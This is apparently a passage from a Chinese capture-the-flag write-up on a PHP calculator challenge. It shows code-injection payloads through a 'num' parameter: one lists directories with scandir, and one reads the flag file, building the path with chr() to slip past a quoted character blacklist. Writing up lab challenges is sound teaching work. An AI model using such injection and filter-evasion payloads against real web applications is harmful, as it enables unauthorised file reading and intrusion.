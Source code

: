 绕过waf之后，我们发现

![](img/58692516cd1f85f122036f2b4b0fb367.png)
禁用了一些危险函数，这里得到flag的方法也有几种：

**方法一：**

利用一些php的文件操作函数：

*   getcwd — 取得当前工作目录
*   dirname(string `$path`) — 返回 path 的父目录
*   scandir — 列出指定路径中的文件和目录

payload:

```
? num=var_dump(scandir(dirname(dirname(dirname(getcwd()))))); 
```

![](img/33945b50d02331c0115600760dd7f5b6.png)

在根目录发现flag的位置`/f1agg`
由于

```
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^']; 
```

过滤了`/,'`等字符不能够直接`var_dump(file_get_contents('/f1agg'))`所以想到了利用编码来绕过。`var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`可以得到flag.

![](img/5d5b741a99b889ee6da6385952dba53c.png)
